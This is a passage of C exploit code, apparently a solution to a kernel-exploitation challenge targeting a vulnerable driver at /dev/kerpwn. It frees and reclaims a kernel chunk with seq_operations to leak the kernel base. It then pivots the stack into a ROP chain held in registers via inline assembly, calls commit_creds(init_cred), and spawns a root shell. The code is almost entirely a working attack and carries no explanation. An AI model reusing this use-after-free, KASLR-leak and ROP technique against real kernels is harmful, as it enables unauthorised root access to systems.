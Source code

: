 ```c
{
    struct alloc_chunk alloc = 
    {
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x20, &alloc);
}

size_t      buf[0x100];
size_t      swapgs_restore_regs_and_return_to_usermode;
size_t      init_cred;
size_t      pop_rdi_ret;
long        seq_fd;
void *      kernel_base = 0xffffffff81000000;
size_t      kernel_offset = 0;
size_t      commit_creds;
size_t      gadget;

int main(int argc, char ** argv, char ** envp)
{
    dev_fd = open("/dev/kerpwn", O_RDWR);

    allocChunk(0x20, buf);
    deleteChunk(0);
    seq_fd = open("/proc/self/stat", O_RDONLY);
    readChunk(0, 0x20, buf);

    kernel_offset = buf[0] - SEQ_OPS_0;
    kernel_base += kernel_offset;
    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + kernel_offset;
    init_cred = INIT_CRED + kernel_offset;
    pop_rdi_ret = POP_RDI_RET + kernel_offset;
    commit_creds = COMMIT_CREDS + kernel_offset;
    gadget = 0xffffffff8135b0f6 + kernel_offset; // add rsp 一个数然后 pop 一堆寄存器最后ret，具体的不记得了，懒得再回去翻了

    buf[0] = gadget;
    swapgs_restore_regs_and_return_to_usermode += 9;
    writeChunk(0, 0x20, buf);

    __asm__(
        "mov r15, 0xbeefdead;"
        "mov r14, pop_rdi_ret;"
        "mov r13, init_cred;" // add rsp, 0x40 ; ret
        "mov r12, commit_creds;"
        "mov rbp, swapgs_restore_regs_and_return_to_usermode;"
        "mov rbx, 0x999999999;"
        "mov r11, 0x114514;"
        "mov r10, 0x666666666;"
        "mov r9, 0x1919114514;"
        "mov r8, 0xabcd1919810;"
        "xor rax, rax;"
        "mov rcx, 0x666666;"
        "mov rdx, 8;"
        "mov rsi, rsp;"
        "mov rdi, seq_fd;"
        "syscall"
    );

    system("/bin/sh");

    return 0;
```